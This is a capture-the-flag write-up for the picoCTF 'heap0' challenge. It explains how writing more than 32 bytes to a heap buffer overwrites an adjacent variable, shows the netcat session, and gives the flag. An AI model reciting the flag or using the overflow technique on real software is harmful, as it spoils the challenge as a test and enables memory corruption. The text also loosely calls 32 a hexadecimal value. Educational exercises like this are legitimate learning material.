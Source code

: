 ## heap0

**Flag: `picoCTF{my_first_heap_overflow_749119de}`**
**Perceived Difficulty:** `easy`

We run the source file to find two memory addresses `0x5a911a7f42b0` and `0x5a911a7f42d0`. Since these memory addresses are close enough to each other, we can overwrite the data in one of the them by providing a writing data to the buffer with a value greater than the difference of their memory addresses. We perform a heap overflow as overwriting `safe_var` will allow the flag to be read.

In this case, the difference between `0x5a911a7f42b0` and `0x5a911a7f42d0` is `0x20`, which is `32` in hexadecimal. Thus to solve the challenge, we write `>32` characters to the buffer by using the option `2` in the program (in this case I wrote 42). 

The flag is obtained after printing it with option `4` in the program. The snippet of the CLI is as follows,

```
tnmyhere-picoctf@webshell:~$ nc tethys.picoctf.net 52676

Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5a911a7f42b0  ->   pico
+-------------+----------------+
[*]   0x5a911a7f42d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: 222222222222222222222222222222222222222222

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{my_first_heap_overflow_749119de}
```
